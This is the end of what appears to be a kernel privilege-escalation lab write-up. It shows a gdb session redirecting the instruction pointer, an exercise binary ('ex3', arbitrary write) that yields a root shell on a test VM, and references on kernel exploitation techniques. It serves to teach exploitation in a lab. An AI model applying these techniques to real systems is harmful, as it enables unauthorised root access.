 **MasterVM**
```sh
Breakpoint 6, sys_getuid () at /build/buildd/linux-lts-quantal-3.5.0/kernel/timer.c:1438
1438	{
(gdb) set $rip = 0x400703
(gdb) c
Continuing.
```

**TestVM**
```sh
test@ubuntu:~/exercises/arbitrary_write$ ./ex3
exploit: 400703
payload: 4006ca
# id
uid=0(root) gid=1001(test) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare),1001(test)
#
```




---

# References
<https://www.lazenca.net/pages/viewpage.action?pageId=25624658>

<https://procdiaru.tistory.com/82>

<https://kernsec.org/wiki/index.php/Exploit_Methods/Function_pointer_overwrite>

<https://wiki.osdev.org/Interrupt_Descriptor_Table>

<https://bromiumlabs.wordpress.com/2015/02/02/exploiting-badiret-vulnerability-cve-2014-9322-linux-kernel-privilege-escalation/>

<https://lugman.org/images/3/3c/Slide-From_local_user_to_root.pdf>

[^rings]: [PRIVILEGE LEVEL(RING 0, RING 3)] <https://elfmfl.tistory.com/2>
[^ioctl]: [ioctl 정리] <http://blog.naver.com/PostView.nhn?blogId=jyh3211&logNo=40131890810>
[^find]: [linux manpage] <http://man7.org/linux/man-pages/man1/find.1.html>
[^desc_ptr]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/kernel/idt.c#L171>
[^idt_table]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc.h#L44>
[^gate_desc]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L88>
[^desc_struct]: <https://github.com/torvalds/linux/blob/da05b5ea12c1e50b2988a63470d6b69434796f8b/arch/x86/include/asm/desc_defs.h#L16>

